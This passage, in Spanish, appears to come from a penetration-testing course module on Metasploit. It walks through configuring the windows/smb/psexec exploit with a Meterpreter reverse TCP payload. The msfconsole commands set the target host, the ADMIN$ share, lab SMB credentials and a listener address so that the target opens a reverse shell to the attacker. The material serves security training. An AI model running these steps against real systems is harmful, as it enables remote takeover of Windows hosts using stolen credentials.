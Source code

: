 | SMBUser                |                      | no        | El nombre de usuario para autenticarse                                                                                                             |

**Opciones del payload (windows/meterpreter/reverse\_tcp):**

| Nombre   | Configuración Actual | Requerido | Descripción                                                   |
| -------- | -------------------- | --------- | ------------------------------------------------------------- |
| EXITFUNC | thread               | sí        | Técnica de salida (Aceptados: '', seh, thread, process, none) |
| LHOST    | 68.183.42.102        | sí        | La dirección de escucha (se puede especificar una interfaz)   |
| LPORT    | 4444                 | sí        | El puerto de escucha                                          |

**Objetivo del exploit:**

| Id | Nombre     |
| -- | ---------- |
| 0  | Automático |

Esta es una de las áreas donde Metasploit brilla en términos de facilidad de uso. En la salida de las opciones del módulo, vemos varias opciones y configuraciones con una descripción de lo que significa cada configuración. No utilizaremos `SERVICE_DESCRIPTION`, `SERVICE_DISPLAY_NAME` y `SERVICE_NAME` en esta sección. Nota cómo este exploit en particular utilizará una conexión de shell TCP inversa que utiliza Meterpreter. Un shell de Meterpreter nos brinda muchas más funcionalidades que un shell TCP inverso sin procesar, como establecimos en las secciones anteriores de este módulo. Es el payload predeterminado que se utiliza en Metasploit.

Queremos utilizar el comando `set` para configurar las siguientes opciones de la siguiente manera:

### Configuración de Opciones

#### Automatización de Payloads y Entrega con Metasploit

```bash
msf6 exploit(windows/smb/psexec) > set RHOSTS 10.129.180.71
RHOSTS => 10.129.180.71
msf6 exploit(windows/smb/psexec) > set SHARE ADMIN$
SHARE => ADMIN$
msf6 exploit(windows/smb/psexec) > set SMBPass HTB_@cademy_stdnt!
SMBPass => HTB_@cademy_stdnt!
msf6 exploit(windows/smb/psexec) > set SMBUser htb-student
SMBUser => htb-student
msf6 exploit(windows/smb/psexec) > set LHOST 10.10.14.222
LHOST => 10.10.14.222
```

Estas configuraciones asegurarán que nuestro payload se entregue al objetivo correcto (RHOSTS), se suba al recurso compartido administrativo predeterminado (ADMIN$) utilizando las credenciales (SMBPass y SMBUser), y luego inicie una conexión de shell inverso con nuestra máquina local (LHOST).

Estas configuraciones serán específicas para la dirección IP en tu máquina de ataque y en la máquina objetivo, así como con las credenciales que puedas recopilar en un compromiso. Podemos establecer la dirección IP del túnel VPN de LHOST (máquina local) o el ID de interfaz del túnel VPN.

### Exploits en marcha
